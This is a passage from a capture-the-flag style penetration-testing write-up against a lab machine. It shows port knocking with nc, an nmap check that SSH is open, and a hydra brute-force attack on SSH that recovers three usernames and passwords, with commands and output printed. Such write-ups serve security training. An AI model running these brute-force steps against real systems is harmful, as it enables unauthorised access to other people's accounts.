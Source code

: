 ### 6. Open up SSH
Attempt to connect on each port, then confirm the port is now open.
```bash
┌──(kali㉿kali)-[]-[~/Extra-Tools/utils]
└─$ nc 192.168.34.140 7469                       
(UNKNOWN) [192.168.34.140] 7469 (?) : Connection refused
                                                                                                                                        
┌──(kali㉿kali)-[]-[~/Extra-Tools/utils]
└─$ nc 192.168.34.140 8475
(UNKNOWN) [192.168.34.140] 8475 (?) : Connection refused
                                                                                                                                        
┌──(kali㉿kali)-[]-[~/Extra-Tools/utils]
└─$ nc 192.168.34.140 9842
(UNKNOWN) [192.168.34.140] 9842 (?) : Connection refused
                                                                                                                                        
┌──(kali㉿kali)-[]-[~/Extra-Tools/utils]
└─$ nmap -sV -p 22 192.168.34.140
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 03:03 EDT
Nmap scan report for 192.168.34.140
Host is up (0.00061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
```

### 7. Attack SSH
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ hydra -C creds.txt -e nsr -s 22 ssh://192.168.34.140 -t 4 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-03 03:08:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 68 login tries, ~17 tries per task
[DATA] attacking ssh://192.168.34.140:22/
[22][ssh] host: 192.168.34.140   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.34.140   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.34.140   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-03 03:09:25
```
Credentials found:  
- `chandlerb:UrAG0D!`  
- `joeyt:Passw0rd`  
- `janitor:Ilovepeepee`  
